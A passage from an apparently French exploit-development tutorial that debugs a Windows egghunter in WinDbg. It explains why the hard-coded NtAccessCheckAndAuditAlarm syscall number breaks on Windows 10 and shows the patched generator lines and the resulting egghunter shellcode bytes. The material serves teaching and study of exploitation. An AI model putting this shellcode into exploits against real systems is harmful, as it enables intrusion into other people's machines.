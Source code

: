 ```powershell
0460eac1 75e7            jne     0460eaaa
0460eac3 ffe7            jmp     edi
#
# On recherche notre egg pour confirmer qu'il est bien en mémoire et on le trouve bien
0:004> s -a 0x0 L?80000000 w00tw00t
018d5b2e  77 30 30 74 77 30 30 74-44 44 44 44 44 44 44 44  w00tw00tDDDDDDDD
#
# On met un point d'arrêt sur l'adresse ou le `jmp edi` est réalisé
0:004> bp 0460eac3
#
# On relance
0:004> g
```

Le point d'arrêt n'est jamais atteint, Le *egghunter* tourne, mais ne trouve pas le *egg*. Pourtout on a bien confirmé qu'il est présent dans la mémoire via la recherche avec `s`.

Cet exploit fonctionne sur `Windows 7` mais pas `Windows 10`. Des changements entre les deux versions ont entrainé un dysfonctionnement du *egghunter*. Il est nécessaire de le modifier.

#### Corriger l'exploit

On doit analyser notre preuve de concept pour comprendre pourquoi le egghunter ne fonctionne pas. Le point d'échec potentiel le plus important est l'appel à la fonction `NtAccessCheckAndAuditAlarm`.

Un des points négatifs de mettre le numéro de l'appel système au sein du code (ici `0x02`) est qu'il peut être amené à changer. Avant Windows 8 le numéro de l'appel système de `NtAccessCheckAndAuditAlarm` était `0x02`, ce n'est plus le cas ensuite. À partir de Windows 10, il change à chaque mise à jour.

On identifie le nouveau numéro d'appel système qui est `1C6h`.

```powershell
ntdll!NtAccessCheckAndAuditAlarm:
77840ec0 b8c6010000      mov     eax,1C6h                                               # ICI
77840ec5 e803000000      call    ntdll!NtAccessCheckAndAuditAlarm+0xd (77840ecd)
77840eca c22c00          ret     2Ch
77840ecd 8bd4            mov     edx,esp
```

On met à jour notre script `Python` pour générer les *opcodes* du *egghunter* :

```py
#
"  push 0x1c6    ;" 
#
"  pop eax    ;" 
#
"  int 0x2e   ;"
```

Génération des *opcodes* à la suite de la mise à jour du numéro d'appel système :

```powershell
$ python3 egghunter.py             
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x68\xc6\x01\x00\x00\x58\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7")
```
